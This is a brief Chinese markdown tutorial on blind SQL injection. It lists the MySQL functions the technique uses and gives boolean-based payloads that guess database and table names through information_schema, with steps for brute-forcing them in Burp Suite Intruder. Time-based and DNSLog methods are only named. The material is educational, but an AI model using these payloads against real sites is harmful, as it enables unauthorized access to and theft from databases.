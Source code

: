 # 无显注入法--无法通过页面直接显示数据和错误信息
### 0x01 函数样例
```sql
    if(expr1,expr2,expr3),满足条件expr1即条件expr1返回expr2否则expr3
    mid(str,start,length),第一个参数是内容，第二参数是截取位置，第三参数是截取长度
    substr(str,pos,len)
    ascii(),编码绕过,如: ascii(substr((select user()),1,1))=114
    left(str,length)
```
### 0x02 布尔盲注

#### 原理:

![](/assets/BCE183BF80E71F93B891EB4A4CD2AE3E.png)

#### 方法: 配合Burpsuite快速匹配,[hackbar手注](https://www.jianshu.com/p/127f3bc8df5c)

![](/assets/C7CBE082C18855C847C61DA54025F7E3.png)

#### 注入流程:

```sql
    判断语句末尾加上 %23,参数要设置报错
查库: and left((select database()),1)='s'
查表: and left((select table_name from information_schema.tables where table_schema=database() limit 0,1),1)='u'
利用 burpsute 将拦截的包发送到 intruder 模块，在 position 中选定参数(clear一下)，在payload中选择brute force进行猜解
根据攻击结果反馈开始添加第二个参数
```

### 0x03 时间盲注

#### 原理:

![](/assets/B435E9AB095D69230969F8256C149BB5.png)

#### 方法: 配合Burpsuite快速匹配

![](/assets/60C5189C592E0E2494B4047CA306E7C1.png)

### 0x04 DNSLog盲注

#### 方法: 目标服务器是 windows server 才能用此方法

![](/assets/4BFF8119025B38FF4A8FAC2F09B0B1F2.png)





